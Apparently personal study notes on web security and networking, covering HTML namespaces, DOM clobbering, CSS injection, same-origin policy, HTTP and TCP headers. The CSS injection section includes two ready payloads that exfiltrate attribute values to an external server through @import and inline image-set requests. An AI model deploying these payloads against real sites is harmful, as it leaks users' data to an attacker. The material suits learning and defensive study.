

## Week 1 and 2 Learnings

### Tags and Attributes
Apart from common tags like `<div>, <span>, , <a>,` etc, there are special tags like `<meta>, <svg>, <object>, <iframe>,` etc. Each tag has its own set of attributes.

Reference to look: https://developer.mozilla.org/en-US/docs/Web/HTML/Reference/Elements

### Namespaces
- HTML supports namespaces.
- Namespaces are the concept of scoping in XML languages.
- The standard namespace for HTML is "http://www.w3.org/1999/xhtml".
- Standard for SVG is "http://www.w3.org/2000/svg".
- Standard for MathML is "http://www.w3.org/1998/Math/MathML".

### MathML
- MathML describes mathematical notations and is useful in rendering mathematical expressions.
- Kind of like latex

### SVG
- SVG is a vector image format for 2D graphics.
- Writing SVG is like writing XML. You just have to define the geometric shapes using tags like `<circle>, <rect>, <line>, <path>,` etc.

### DOM Clobbering
- Technique where HTML elements can override javascript variables.
- HTML elements with "name" attributes become global variables.
- If a variable is defined in JS and an HTML element with the same name is injected, the variable gets overridden.
- In this way, the logic can be manipulated.
- Helpful in cases where XSS is not possible.

### CSS Injection
- If `<style>` tags are allowed, CSS injection is possible.
- The values in attributes of elements can be exfiltrated. For example, if an input field has value="test", an attacker can read this value using CSS by using the attribute selectors. Using the background-image property, one can set the url to the attacker's server. When the CSS is rendered, the request will be sent to the attacker's server with the value.
- It is a brute force method, since the value has to be guessed for each character.
ref: https://portswigger.net/research/blind-css-exfiltration

- Useful payload : 
```html
<style>
@import 'https://portswigger-labs.net/blind-css-exfiltration/start';
</style>
```

- Without brute force is also possible using `image-set`.
- Reference: https://x.com/slonser_/status/1912060415296835961

- Even inline style can be used due to recent CSS feature of being able to use if statements: https://portswigger.net/research/inline-style-exfiltration

- Note: The value in if statement should be enclosed in double quotes, using single quotes will not work.

- Useful payload:
```html
<div style='--val:attr(title);--steal:if(style(--val:"1"): "/1"; else: "/2");background:image-set(var(--steal))' title=1>test</div>
```

### Same Origin Policy (SOP)

- Restricts how scripts from one origin can interact with resources from another origin.

- Using Allow-Origin: * is dangerous, external sripts can read sensitive data.

### HTTP Protocol:

- Flow: 
    1. Resolve DNS
    2. Establish TCP connection (3 way handshake)
    3. Send HTTP request, which contains method, path, headers and body.
    4. Server processes request and sends back response with status code, headers and body.

HTTP/1.1 vs HTTP/2:
- HTTP/1.1 is text based, while HTTP/2 is binary.
- HTTP/2 supports multiplexing, where multiple requests can be sent over a single connection.
- HTTP/2 compresses headers, making it more efficient.


**RFC**: Request For Comments

It is a standard that describes the the protocol of the internet.

https://www.ietf.org/

### TCP is in layer 4 of OSI model (Transport Layer)

### TCP 14KB problem:

If the size of a page is more than 14KB, the connection will have to make another trip to fetch the remaining data, which increases latency. The size of TCP packet is 

### Structure of TCP packet:

TCP Header (20 bytes):
- Source Port (2 bytes)
- Destination Port (2 bytes)
- Sequence Number (4 bytes)
- Acknowledgment Number (4 bytes)
- Data Offset (4 bits)
- Reserved (3 bits)
- Flags (9 bits)
- Window Size (2 bytes)
- Checksum (2 bytes)
- Urgent Pointer (2 bytes)
- Options (variable length)
- Padding (variable length)



Data is also of variable length.

